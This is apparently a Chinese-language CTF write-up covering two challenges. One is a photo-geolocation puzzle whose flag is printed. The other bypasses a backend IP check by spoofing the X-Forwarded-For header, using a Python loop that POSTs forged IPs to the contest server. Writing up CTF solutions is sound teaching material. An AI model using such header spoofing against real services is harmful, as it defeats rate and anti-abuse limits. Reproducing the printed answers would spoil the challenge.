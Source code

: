 直到晚上回来又看了会儿题，发现这个蓝色的按钮点开了才是题目.... 卖糕的，原谅我的第一次。

题目里已经提到KFC分店了，看到是蓝色涂装的KFC，大街上的巴士及巴士左面大门旁的标牌能确定这是国内。那么去百度搜蓝色KFC就能直接定位到这是秦皇岛新澳海底世界的肯德基甜品站。

![Geo guessing](assets/geo.png)

打开卫星地图搜索此位置即可解大部分题。楼层大致数下就知道在10层之上，20层之下，遍历下就OK。

`flag{D0n7-5hare-ph0t05-ca5ua11y}`

#### FLAG 助力大红包

为好友助力时提交的表单里为前端获取到的IP，后端同样获取IP并于此IP对比，不符则不通过。说来前端是通过调用搜狐API获取当前IP，但此请求被广告屏蔽插件拦截了，导致没获取到，第一次点击按钮时返回

> 失败！错误的前端检测 IPv4 地址格式： ！

还让我愣了下。手动POST几次可以发现后端确实进行了校验，那么就必须想办法欺骗后端了，由于搭过Nginx反代，其中不少次还是某代理。第一反应就是`X-Forwarded-For`和`X-Real-IP`这两个请求头，尝试构造`X-Forwarded-For`可发现通过了校验。

```python
import requests
import time

uuid = "foobar"

for i in range(0, 256):
    ip = f'{i}.0.0.0'
    data = f'ip={ip}'
    headers = {
        'X-Forwarded-For': ip,
        'Content-Type': 'application/x-www-form-urlencoded',
    }
    response = requests.post(f'http://202.38.93.111:10888/invite/{uuid}', headers=headers, data=data, verify=False)
    print(response.text)
    time.sleep(2)

```
